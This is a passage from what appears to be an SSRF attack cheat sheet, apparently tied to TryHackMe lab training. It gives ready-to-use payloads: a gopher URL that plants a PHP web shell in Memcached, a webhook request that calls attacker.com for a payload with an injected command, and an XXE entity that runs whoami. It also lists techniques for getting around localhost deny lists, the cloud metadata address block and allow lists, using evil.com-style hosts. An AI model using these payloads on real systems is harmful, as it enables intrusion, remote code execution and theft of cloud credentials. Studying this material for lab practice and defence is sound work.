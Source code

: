 **Exploiting Memcached**:
```
gopher://127.0.0.1:11211/_%0d%0aset%20ssrf_shell%201%200%2022%0d%0a<?php%20system($_GET[0]);?>%0d%0a
```

### Command Injection via Internal Webhooks
If a server processes webhook data and executes commands based on that data:
```
http://internal-service/api/webhook?callback=http://attacker.com/payload&command=id
```

### Exploiting XML Parsers with XXE via SSRF
```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-service/exec?cmd=whoami">
]>
<root>&xxe;</root>
```

## Bypass Techniques for SSRF Protections

### Bypassing Deny Lists

A deny list is a security approach where all requests are accepted except those explicitly blocked. Developers often block specific IPs or domains like:
- `localhost`
- `127.0.0.1`

**Bypass techniques include:**
- Alternative localhost references: `0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001`
- IPv6 representation: `::1`, `0:0:0:0:0:0:0:1`
- Custom DNS subdomain resolution: `127.0.0.1.nip.io`
- Double URL encoding: `http://127.0.0.1` → `http%3A%2F%2F127.0.0.1` → `http%253A%252F%252F127.0.0.1`
- For cloud environments, blocking `169.254.169.254` (metadata service) can be bypassed by creating a subdomain pointing to this IP address

### Bypassing Allow Lists

Allow lists only permit requests to specified domains or patterns, such as requiring URLs to start with `https://website.thm`.

**Bypass techniques include:**
- Creating subdomains that match the allowed pattern: `https://website.thm.attacker-domain.com`
- Using URL fragments: `https://website.thm@evil.com`
- Using URL credentials: `https://website.thm:password@evil.com`
- Path traversal after allowed domain: `https://website.thm/../../evil.com/`

### Exploiting Open Redirects

If direct SSRF is blocked, attackers may leverage open redirect vulnerabilities:
1. Find an open redirect on the target site (e.g., `https://website.thm/link?url=https://tryhackme.com`)
2. Use the redirect to channel the SSRF request to the attacker's target

